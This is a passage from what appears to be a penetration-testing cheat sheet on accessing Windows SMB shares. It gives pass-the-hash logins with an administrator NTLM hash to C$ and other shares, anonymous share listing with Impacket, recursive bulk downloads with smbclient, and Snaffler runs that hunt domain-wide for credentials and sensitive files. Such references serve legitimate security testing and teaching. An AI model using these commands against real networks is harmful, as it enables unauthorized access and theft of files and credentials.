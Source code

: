 - [byt3bl33d3r/pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
    
    ```powershell
    pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
    pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
    ls  # list files
    cd  # move inside a folder
    get # download files
    put # replace a file
    ```
    
- [SecureAuthCorp/smbclient from Impacket](https://github.com/SecureAuthCorp/impacket)
    
    ```powershell
    smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            Replication     Disk      
            SYSVOL          Disk      Logon server share
            Users           Disk
    use Sharename # select a Sharename
    cd Folder     # move inside a folder
    ls            # list files
    ```
    
- [smbclient - from Samba, ftp-like client to access SMB/CIFS resources on servers](#)
    
    ```powershell
    smbclient -U username //10.0.0.1/SYSVOL
    smbclient //10.0.0.1/Share
    
    # Download a folder recursively
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> lcd '/path/to/go/'
    smb: \> mget *
    ```
    
- [SnaffCon/Snaffler - a tool for pentesters to help find delicious candy](https://github.com/SnaffCon/Snaffler)
    
    ```ps1
    snaffler.exe -s - snaffler.log
    
    # Snaffle all the computers in the domain
    ./Snaffler.exe -d domain.local -c <DC> -s
    